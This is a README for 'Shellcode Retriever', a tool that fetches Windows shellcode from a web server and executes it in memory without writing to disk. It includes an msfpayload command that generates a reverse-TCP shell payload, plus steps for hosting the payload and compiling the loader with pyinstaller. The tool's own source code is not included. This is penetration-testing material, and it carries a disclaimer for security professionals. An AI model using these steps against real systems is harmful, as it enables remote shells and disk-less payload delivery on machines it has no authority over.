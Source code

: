 ##Shellcode Retriever

Downloads win32 shellcode from webservers and executes the shellcode without it touching disk (using the following method: http://www.debasish.in/2012_04_01_archive.html)

Modified for threading by yours truly.

Original demo video:

http://www.youtube.com/watch?v=R15B2p-uWKY

---

For use by IT Security professionals and researchers.

Usage:

Create shellcode using the following msfpayload command:

msfpayload windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=8080 EXITFUNC=thread R > test.txt

Notice the exit function, very important if you want the process to run and beacon out based on timeouts in the source code.

Upload the shellcode to your webserver.

Compile the python code to an executeable by using pyinstaller.


---

##License:   GPLv3


    Shellcode Retriever

    Author Joshua Pitts the.midnite.runr 'at' gmail <d ot > com
    
    Copyright (C) 2013, Joshua Pitts

    License:   GPLv3

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    See <http://www.gnu.org/licenses/> for a copy of the GNU General
    Public License

    This program is to be used for only legal activities by IT security
    professionals and researchers. Author not responsible for malicious
    uses.